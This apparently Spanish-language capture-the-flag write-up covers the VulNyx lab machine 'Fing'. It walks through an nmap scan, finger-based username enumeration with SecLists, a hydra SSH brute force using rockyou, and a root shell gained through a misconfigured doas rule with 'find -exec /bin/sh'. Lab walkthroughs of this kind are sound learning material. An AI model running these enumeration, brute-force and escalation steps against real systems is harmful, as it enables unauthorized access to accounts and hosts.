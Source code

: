 # WriteUp: Fing | VulNyx

Iniciamos un escaneo con nmap para identificar los puertos abierto:

```sh
nmap -n -Pn -sS -p- --min-rate 5000 192.168.56.27

PORT   STATE SERVICE
22/tcp open  ssh
79/tcp open  finger
80/tcp open  http
```

Realizamos otro escaneo para identificar mayor información en los puertos encontrados:

```sh
nmap -sVC -p22,79,80 192.168.56.27               

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
79/tcp open  finger  Linux fingerd
|_finger: No one logged on.\x0D
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Apache2 Debian Default Page: It works
```

Ahora lo siguiente que hice fue visitar la página web en el puerto 80, sin embargo no encontré nada relevante:

<figure><img src="../../.gitbook/assets/Pasted image 20250930010543.png" alt=""><figcaption></figcaption></figure>

El servicio que corre por el puerto 79 lo desconocía completamente, así que decidí pedirle a Gemini que me de información a cerca de este servicio que correo en el puerto 79:

`finger` es un protocolo/servicio muy antiguo para consultar información sobre usuarios de un sistema remoto. Si está habilitado, puede devolver:

* nombre completo del usuario
* último inicio de sesión (last login)
* shell y home directory
* contenido de archivos de usuario especiales (`.plan`, `.project`, `.forward`) si están presentes
* a veces dirección de correo, teléfono u otros datos que el usuario puso en su registro

```sh
# Pedir información de varios usuarios populares
for u in root admin user test guest tom jerry alice bob; do
  echo "== $u =="; finger $u@192.168.56.27;
done

```

Una vez realizado ello, obtuve la siguiente respuesta:

```sh
== root ==
Login: root                             Name: root
Directory: /root                        Shell: /bin/bash
Last login Fri Jul 14 17:02 2023 (CEST) on tty1
No mail.
No Plan.
== admin ==
finger: admin: no such user.
== user ==
finger: user: no such user.
== test ==
finger: test: no such user.
== guest ==
finger: guest: no such user.
== tom ==
finger: tom: no such user.
== jerry ==
finger: jerry: no such user.
== alice ==
finger: alice: no such user.
== bob ==
finger: bob: no such user.
```

Como podemos ver, el usuario root existe, sin embargo sería una pérdida tiempo intentar descifrar a través de fuerza bruta la contraseña, debido a que este usuario tiene medidas de seguridad implementadas para la conexión SSH, por lo que decidí buscar hacer fuerza bruta con los usuarios y así tratar de encontrar alguno que nos sirva.

Decidí utilizar la Seclists para probar los posibles usuarios:

```sh
HOST=192.168.56.27
WORDLIST=/usr/share/seclists/Usernames/Names/names.txt

while read -r user; do
  printf "\n== %s ==\n" "$user"
  finger "${user}"@"${HOST}"
done < "$WORDLIST" > resultados_finger.txt
```

Luego de un buen rato de espera, leí el archivo de salida con un editor de texto y busqué "login" encontrando lo siguiente:

```
== adam ==
Login: adam           			Name: adam
Directory: /home/adam               	Shell: /bin/bash
Last login Sun Apr 23 13:21 2023 (CEST) on pts/0 from 192.168.1.10
No mail.
No Plan.
```

Ahora sí decidí hacer fuerza bruta al SSH:

```sh
hydra -l adam -P /usr/share/wordlists/rockyou.txt 192.168.56.27 ssh -s 22 
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-29 20:53:07
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.56.27:22/
[STATUS] 211.00 tries/min, 211 tries in 00:01h, 14344192 to do in 1133:02h, 12 active
[STATUS] 180.00 tries/min, 540 tries in 00:03h, 14343864 to do in 1328:09h, 11 active
[22][ssh] host: 192.168.56.27   login: adam   password: XXXXXXXXXX

# 7u7!!! BINGO!! Tenemos acceso
```

Ahora nos conectamos a través de SSH:

```sh
ssh adam@192.168.56.27                 
The authenticity of host '192.168.56.27 (192.168.56.27)' can't be established.
ED25519 key fingerprint is SHA256:3dqq7f/jDEeGxYQnF2zHbpzEtjjY49/5PvV5/4MMqns.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.27' (ED25519) to the list of known hosts.
adam@192.168.56.27's password: 
Linux fing 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64
Last login: Sun Apr 23 13:21:44 2023 from 192.168.1.10

adam@fing:~$ id
uid=1000(adam) gid=1000(adam) grupos=1000(adam)
```

Una vez realizado esto empiezo a buscar permisos de ejecución:

```sh
sudo -l
# NADA

find / -perm -u=s -type f 2>/dev/null

# RESULTADO
/usr/bin/mount
/usr/bin/su
/usr/bin/chfn
/usr/bin/doas
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

De esta lista la que más me llama la atención es `/usr/bin/doas`, nunca lo había visto. Busco información al respecto y obtengo la siguiente información: "es un sustituto de `sudo`. Si está mal configurado (`/etc/doas.conf`) puede permitir ejecutar comandos como root sin contraseña."

Lo siguiente que hice fue ejecutar el comando:

```sh
adam@fing:/$ /usr/bin/doas
usage: doas [-Lns] [-C config] [-u user] command [args]
```

La opción `-u user` me da el indicio de que puedo colocar el usuario root, pero para ello tendría que tener los permisos, así que decidí revisar `/etc/doas.conf` para verificar si es que hay indicios de una mala configuración:

```sh
adam@fing:/$ cat /etc/doas.conf
permit nopass keepenv adam as root cmd /usr/bin/find

# Y sí, cómo podemos ver, se me permite ejecutar find como root sin la necesidad de una contraseña
```

`find` cuenta con la opción `-exec` que permite ejecutar otros comandos como el mismo usuario que ejecuta `find`. Como `doas` lanza `find` como root, puedo usar `-exec` para ejecutar una shell o copiar `bash` y convertirla en SUID root.

Para tal caso, utilicé el siguiente comando:

```sh
adam@fing:/$ doas /usr/bin/find / -exec /bin/sh -i \;

# id
uid=0(root) gid=0(root) grupos=0(root)
# ls
bin   dev  home        initrd.img.old  lib32  libx32      media  opt   root  sbin  sys  usr  vmlinuz
boot  etc  initrd.img  lib             lib64  lost+found  mnt    proc  run   srv   tmp  var  vmlinuz.old
# cd root
# ls
root.txt
# cat root.txt  
```

7u7!!! Listo, completamos la máquina 7u7!!!!!
